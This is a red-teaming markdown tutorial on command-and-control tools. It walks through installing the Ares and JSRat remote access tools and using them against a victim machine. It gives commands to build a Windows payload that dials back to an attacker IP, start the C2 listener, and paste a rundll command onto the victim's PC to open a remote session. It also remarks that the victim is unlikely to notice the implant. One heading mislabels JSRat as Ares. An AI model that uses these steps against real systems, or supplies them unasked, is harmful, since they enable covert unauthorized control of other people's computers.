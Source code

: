 # Red Teaming Squad : Command & Control

Command and control (C2) systems are used to manage remote sessions from compromised hosts. From a command and control program interface, a security tester or attacker can send commands directly from the program or access a remote shell. During a penetration test, a security tester can deploy a remote access terminal (RAT) on a compromised host that dials back to a command and control server.


## C2 with Web Interface : Ares

Ares is a Python Remote Access Tool and is made of two main programs:
1. A command and control server, which is a Web interface to administer the agents
2. An agent program, which is run on the compromised host, and ensures communication with the CNC


### Installation

You can install "Ares" using following command:

```
git clone https://github.com/sweetsoftware/Ares
cd Ares
pip install -r requirements.txt
./wine_setup.sh
```

### Usage

First of all you have to change the server address to attacker's IP address.

<kbd>![](Command_&_Control/1.png)</kbd>

Now create payload(exe file because target system is windows) using ```./builder.py -p Windows --server http://192.168.43.250:8080 -o temp.exe``` command and transfer the payload to victim's machine.

<kbd>![](Command_&_Control/2.png)</kbd>

Now initiate the server database using ```./ares.py initdb``` and then start the server using ```./ares.py runserver -h 192.168.43.250 -p 8080 --threaded``` command.

<kbd>![](Command_&_Control/3.png)</kbd>

Access the web server through browser.

<kbd>![](Command_&_Control/4.png)</kbd>

Run the payload.

<kbd>![](Command_&_Control/5.png)</kbd>

Observe the session on server.

<kbd>![](Command_&_Control/6.png)</kbd>

Now attacker can interact with target machine through the web interface.

<kbd>![](Command_&_Control/7.png)</kbd>

One of the benefit of ares tool is that victim won't notice that any unwanted application is running on his/her machine. If victim checks the running processes then he/she will find the exe file running on the machine. 

<kbd>![](Command_&_Control/8.png)</kbd>

For more use cases, you can use ```./builder.py --help``` command or you can visit this [URL](https://github.com/sweetsoftware/Ares).


## C2 with Javascript : JSRat

This tool is developed in JavaScript. It allows the payload to connect to the listening server. These features were created in python which allows the server to be both Linux and Windows friendly. The basic protocol used is HTTP for the server to work.


### Installation

You can install "Ares" using following command:

```
git clone https://github.com/Hood3dRob1n/JSRat-Py
```

<kbd>![](Command_&_Control/9.png)</kbd>

### Usage

First of all you have to start the server at attacker's IP address using ```./JSRat.py -i 192.168.43.250 -p 4545```.

<kbd>![](Command_&_Control/10.png)</kbd>

You can find these files by accessing the server from your or victim’s browser. If you look closely, there is a code given on the server. This code allows you to execute a rundll attack. Copy this code and paste it in the command prompt of the victims’ PC.

<kbd>![](Command_&_Control/11.png)</kbd>

As soon as the command is executed you will have a session.

<kbd>![](Command_&_Control/12.png)</kbd>

Now you can run any commands on victim's machine.

<kbd>![](Command_&_Control/13.png)</kbd>

For more use cases, you can use ```./JSRat.py --help``` command or you can visit this [URL](https://github.com/Hood3dRob1n/JSRat-Py).

